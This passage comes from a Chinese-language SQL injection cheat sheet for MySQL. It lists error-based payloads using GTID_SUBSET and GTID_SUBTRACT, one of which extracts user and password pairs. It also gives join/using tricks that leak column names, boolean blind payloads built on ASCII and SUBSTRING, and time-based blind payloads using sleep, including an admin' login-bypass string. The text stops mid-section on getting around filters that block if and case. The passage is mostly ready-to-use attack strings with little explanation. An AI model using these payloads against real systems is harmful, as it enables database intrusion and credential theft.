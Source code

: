 ```python
SELECT GTID_SUBSET(CONCAT(0x7e,(SELECT VERSION()),0x7e),1)
SELECT GTID_SUBTRACT(CONCAT(0x7e,(SELECT VERSION()),0x7e),1)
SELECT gtid_subtract(concat(0x7e,(SELECT GROUP_CONCAT(user,':',password) from manage),0x7e),1)
```

### join using() 报错获取列名

```python
获取第一个列名
SELECT * FROM (SELECT * FROM aoa_attachment_list AS a JOIN aoa_attachment_list AS b)AS c
获取第二个列名
SELECT * FROM (SELECT * FROM aoa_attachment_list AS a JOIN aoa_attachment_list AS b USING(attachment_id))d
获取第三个列名
SELECT * FROM (SELECT * FROM aoa_attachment_list AS a JOIN aoa_attachment_list AS b USING (attachment_id,attachment_name))a
```

## 用于布尔盲注的payload

### 常见payload

```python
SELECT (ASCII(RIGHT("qqwdqa",4))<100)   
SELECT ASCII(SUBSTRING((SELECT GROUP_CONCAT(attend_hmtime) FROM aoa_attends_list ),1,1)) 
SELECT ORD(SUBSTRING((SELECT GROUP_CONCAT(attend_hmtime) FROM aoa_attends_list ),1,1))
```

### order by判断

这里默认是升序。这里默认是升序

```python
SELECT eamil,user_idcard FROM aoa_user UNION SELECT 1,'26' ORDER BY 2
```

![](https://cdn.nlark.com/yuque/0/2023/png/25519932/1702364335768-681186b0-213e-4764-acc2-ee6729162d42.png#id=Wg8iW&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

## 时间盲注

### if或case结合打延时

```python
SELECT IF(1<2,SLEEP(1),1)
admin' and if(ascii(substr((select database()),1,1))>1,sleep(3),0)#
if((condition), sleep(5), 0);
CASE WHEN (condition) THEN sleep(5) ELSE 0 END;
```

### 无if和case的解决办法

假设if和case被ban了，又想要根据condition的真假来决定是否触发sleep()，可以将condition整合进sleep()中，做乘法即可:
